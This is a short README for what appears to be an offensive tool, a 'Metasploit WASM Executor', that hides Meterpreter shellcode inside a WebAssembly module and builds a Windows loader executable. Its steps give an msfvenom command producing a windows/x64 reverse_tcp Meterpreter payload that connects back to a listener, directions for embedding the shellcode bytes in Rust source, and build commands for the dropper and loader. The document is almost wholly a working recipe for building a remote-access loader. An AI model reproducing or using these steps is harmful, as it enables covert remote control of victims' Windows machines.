 # Metasploit WASM Executor

## Dependencies
```sh
cargo install wasm-pack
```

## Install Wasm2Wat Windows
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-windows.tar.gz
```

## Install Wasm2Wat Linux
```sh
curl -L -o wabt.tar.gz https://github.com/WebAssembly/wabt/releases/latest/download/wabt-1.0.37-ubuntu-20.04.tar.gz
tar -xzf wabt.tar.gz
```

- First, we need to get some shellcode from Metasploit
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP ADDR> LPORT=<LISTNER PORT> -f rust
```

- Copy the output from that command into ./wasm_dropper/src/lib.rs 
- Name it WASM_MEMORY_BUFFER and change the const to be static
- WASM_MEMORY_BUFFER should have the following signature:
```rust
static WASM_MEMORY_BUFFER: [u8; WASM_MEMORY_BUFFER_SIZE] = [
    0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,
    ...
];
```

## Build the wasm binary
```sh
cd wasm_dropper && wasm-pack build --release && cd ..
```

## Now convert the wasm binary from .wasm to .wat using wasm2wat
```sh
./wabt/bin/wasm2wat.exe ./wasm_dropper/target/wasm32-unknown-unknown/release/wasm_dropper.wasm -o ./wasm_loader/src/wasm_dropper.wat
```

## Now build the Loader
```sh
cd wasm_loader && cargo build --release && cd ..
```

# The Loader Binary is now in ./wasm_loader/target/release/wasm_loader.exe